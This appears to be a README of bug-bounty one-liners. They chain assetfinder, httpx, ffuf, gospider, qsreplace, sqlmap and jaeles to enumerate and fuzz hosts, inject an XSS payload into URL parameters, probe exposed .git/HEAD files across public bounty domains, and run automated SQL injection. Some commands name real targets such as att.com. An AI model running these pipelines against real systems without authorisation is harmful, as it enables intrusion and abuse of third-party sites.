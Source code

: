 ###  Search to files using assetfinder and ffuf

- [Explained command]

```bash
assetfinder att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```

###  HTTPX using new mode location and injection XSS using qsreplace.

- [Explained command]

```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo '(http|https)://[^/"].*' | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>" "'
```

###  Grap internal juicy paths and do requests to them.

- [Explained command]

```bash
export domain="https://target";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
```

###  Download to list bounty targets We inject using the sed .git/HEAD command at the end of each url.

- [Explained command]

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv | cat domains.txt | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

###  Using to findomain to SQLINJECTION.

- [Explained command]

```bash
findomain -t testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1
```

###  Jaeles scan to bugbounty targets.

- [Explained command]

```bash
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```
